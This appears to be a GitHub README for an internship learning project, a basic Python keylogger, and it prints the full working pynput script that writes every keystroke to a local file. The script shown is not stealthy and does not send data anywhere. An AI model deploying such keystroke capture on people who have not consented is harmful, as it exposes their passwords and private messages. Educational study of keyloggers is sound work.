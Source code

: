 
Sure! Here's a detailed README file for your GitHub repository:

Simple Keylogger in Python
Project Overview
Welcome to the Simple Keylogger in Python project! This project is part of my internship at Prodigy InfoTech. The goal of this task is to create a basic keylogger that captures and logs keystrokes. This project serves as a learning experience to understand how keyloggers work, their ethical implications, and the importance of cybersecurity.

Features
Keystroke Logging: Captures all keystrokes made by the user.
Special Key Handling: Identifies and logs special keys (e.g., Shift, Ctrl, etc.).
Logging to File: Saves the logged keystrokes to a specified text file.
Start/Stop Functionality: Listens for key press and release events to start and stop the keylogger.
Getting Started
Prerequisites
Ensure you have Python installed on your machine. You can download Python from here.

Installation
Clone the repository:

bash
Copy code
git clone https://github.com/Liyu-Desta/PRODIGY_CS_04.git
cd PRODIGY_CS_04
Install the required library:

bash
Copy code
pip install pynput
Usage
Navigate to the project directory:

bash
Copy code
cd PRODIGY_CS_04
Run the keylogger script:

bash
Copy code
python keylogger.py
Press keys on your keyboard to log them. The keystrokes will be saved to key_log.txt in the same directory.

To stop the keylogger, press the ESC key.

Code Explanation
The keylogger script is structured as follows:

python
Copy code
from pynput import keyboard

# Define the file where the keystrokes will be logged
log_file = "key_log.txt"

# Function to log the keystrokes
def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f'{key.char}')
            print(f'Logged key: {key.char}')  # Debugging print statement
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f'[{key}]')
            print(f'Logged special key: {key}')  # Debugging print statement

# Function to stop the keylogger (for demonstration, let's stop on ESC key)
def on_release(key):
    if key == keyboard.Key.esc:
        return False

# Start the listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
on_press: This function logs regular and special keystrokes to key_log.txt.
on_release: This function stops the keylogger when the ESC key is pressed.
keyboard.Listener: Starts the listener to monitor key press and release events.
Ethical Considerations
Important: This keylogger is for educational purposes only. Logging keystrokes without explicit permission is illegal and unethical. Always obtain consent from users before deploying any keylogging software. Use this knowledge responsibly to enhance cybersecurity.

License
This project is licensed under the MIT License. See the LICENSE file for details.

Acknowledgments
Prodigy InfoTech: For the opportunity to work on this project.
pynput Library: For providing an easy-to-use interface for keyboard and mouse input monitoring.
Contact
For any questions or inquiries, please contact me at tiragoliyu@gmail.com.
